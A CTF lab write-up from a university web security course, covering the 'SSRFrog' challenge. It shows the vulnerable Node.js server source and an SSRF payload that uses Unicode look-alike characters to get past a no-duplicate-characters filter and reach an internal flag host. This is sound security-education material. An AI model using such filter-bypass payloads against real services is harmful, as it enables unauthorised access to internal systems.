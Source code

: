 ```yaml
---
title: Simple Web 0x13(Lab - SSRFrog)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > SSRF"
---
```


# Simple Web 0x13(Lab - SSRFrog)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8501/

## Background
[javascript Set()](https://pjchender.dev/javascript/js-set/)
[Web Hacking | 續章【EDU-CTF 2021】](https://youtu.be/hWC-Evt-sBc?t=9867)
[網站安全🔒 伺服器端請求偽造 SSRF 攻擊 — 「項莊舞劍，意在沛公」](https://medium.com/程式猿吃香蕉/網站安全-伺服器請求偽造-ssrf-攻擊-項莊舞劍-意在沛公-7a5524926362)

## Source code
:::spoiler source code
```javascript=
const express = require("express");
const http = require("http");

const app = express();

app.get("/source", (req, res) => {
    return res.sendFile(__filename);
})
app.get('/', (req, res) => {
    const { url } = req.query;
    if (!url || typeof url !== 'string') return res.sendFile(__dirname + "/index.html");

    // no duplicate characters in `url`
    if (url.length !== new Set(url).size) return res.sendFile(__dirname + "/frog.png");

    try {
        http.get(url, resp => {
            resp.setEncoding("utf-8");
            resp.statusCode === 200 ? resp.on('data', data => res.send(data)) : res.send(":(");
        }).on('error', () => res.send("WTF?"));
    } catch (error) {
        res.send("WTF?");
    }
});

app.listen(3000, '0.0.0.0');
```
:::
* Simply speaking, it'll call a `Set()` object that will filter duplicate characters
* We also can find the hint in page source
![](https://i.imgur.com/AxoVKnp.png)

## Exploit
1. The hint said flag is on `http://the.c0o0o0l-fl444g.server.internal:80`, so we need to meet the first requirement - every single character is unique.
We can use [Domain Obfuscator](https://splitline.github.io/domain-obfuscator/) to replace the similar characters.
2. Payload
`htTp:/\ⓉₕE．ℭ⓪ᴼ₀o０Ⅼ-Ⓕｌ₄4４ⓖ｡ₛⒺʳⓋₑⓇ.㏌ₜｅᴿ㎁ˡ`
`htTp:/\ⓉｈE。Ⅽ⁰ₒ０O0ℓ-ｆᴸ④４⁴G．ＳＥRｖⅇⓡ.ⁱNｔₑrｎAℒ`

## Reference
[SSRFrog](https://ctftime.org/writeup/25763)
[Punycode converter](https://www.punycoder.com/)